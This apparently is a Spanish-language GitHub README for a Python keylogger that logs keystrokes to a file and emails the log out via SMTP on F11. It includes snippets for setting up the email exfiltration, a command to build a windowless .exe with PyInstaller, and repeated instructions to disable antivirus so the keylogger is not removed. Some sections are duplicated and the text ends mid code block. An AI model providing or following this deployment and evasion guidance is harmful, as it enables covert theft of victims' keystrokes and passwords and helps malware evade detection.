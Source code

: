 # 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

## 📌 Instalación de Dependencias en Python

Antes de ejecutar el keylogger, asegúrate de instalar las bibliotecas necesarias.

## 📌 Requisitos

🔹 Python 3.x instalado en tu sistema.
🔹 Conexión a Internet para descargar las dependencias.

## 🚀 Instalación de Dependencias

### 1️⃣ Instalar `pynput` para Captura de Teclado

El módulo `pynput` permite registrar las teclas presionadas en el sistema. Instálalo con:

```bash
pip install pynput
```

### 2️⃣ Instalar `smtplib` y `email` para Envío de Correos

El módulo `smtplib` ya está incluido en Python, pero `email` se usa para estructurar los mensajes de correo. Se recomienda actualizar `email` con:

```bash
pip install secure-smtplib
```

### 3️⃣ Verificar Instalación

Después de instalar las dependencias, verifica que se hayan instalado correctamente ejecutando:

## ✉️ Configuración del Correo

Abre el archivo y reemplaza los siguientes valores con tu información:

```python
mensaje["From"] = "tucorreo@gmail.com"
mensaje["To"] = "destinatario@gmail.com"
server.login("tucorreo@gmail.com", "tu_contraseña")
server.sendmail("tucorreo@gmail.com", "destinatario@gmail.com", mensaje.as_string().encode('utf-8'))
```

🔹 **Usa una contraseña de aplicación en lugar de tu contraseña real para mayor seguridad.**

# 🖥️ KeyLogger en Python  

Este es un **KeyLogger** desarrollado en Python que registra las teclas presionadas y las guarda en un archivo `log.txt`. Además, permite enviar el registro por correo electrónico presionando `F11` y cerrar el programa con la tecla `ESC`.  

---

## 🚀 1️⃣ Inicio del KeyLogger  
Para ejecutar el KeyLogger, abre la terminal y ejecuta:  

```bash
python KeyLogger_Mail.py
```

Al iniciarse, mostrará el siguiente mensaje en la terminal:  

```
(+) Se inició el KeyLogger
```

![Inicio del KeyLogger](https://via.placeholder.com/800x400?text=Inicio+del+KeyLogger)

---

## ⏹️ 2️⃣ Cerrar el KeyLogger  
Para **detener la ejecución**, simplemente presiona la tecla `ESC`. Esto cerrará el programa inmediatamente.  

![Cerrar KeyLogger con ESC](https://via.placeholder.com/800x400?text=Cerrar+KeyLogger+con+ESC)

---

## 📩 3️⃣ Enviar el registro por correo  
Si presionas la tecla `F11`, el KeyLogger **enviará el archivo `log.txt` a través de un correo electrónico**.  

![Correo recibido con log.txt](https://via.placeholder.com/800x400?text=Correo+con+Log+Adjunto)

---

## 🛠️ Compilar a .exe  
Para convertir este script en un ejecutable `.exe`, usa el siguiente comando:  

```bash
pyinstaller --onefile --noconsole KeyLogger_Mail.py
```

Antes de compilar, **desactiva el antivirus**, ya que podría eliminar el ejecutable.  

![Desactivar antivirus](https://via.placeholder.com/800x400?text=Desactivar+Antivirus)



Si todo está bien, ya puedes ejecutar el script sin problemas. 🚀

# 🛠️ Crear un Archivo Ejecutable (.exe) con PyInstaller

Para convertir el script en un archivo ejecutable `.exe`, es necesario utilizar `pyinstaller`. Antes de proceder, **desactiva tu antivirus**, ya que podría detectar el keylogger como una amenaza y eliminarlo.

🔹 Instalar pyinstaller

```bash
pip install pyinstaller
```

### 🚨 Desactivar Antivirus

🔹 Desactiva temporalmente la protección en tiempo real de tu antivirus antes de ejecutar el siguiente comando puede saltar un error asi.

![Desactivar Antivirus](./keylogger_antivirus.png)

### 🔹 Generar el Archivo .exe

Ejecuta el siguiente comando en la terminal dentro de la carpeta donde se encuentra `KeyLogger_Mail.py`:

```bash
pyinstaller --onefile --noconsole keylogger.py
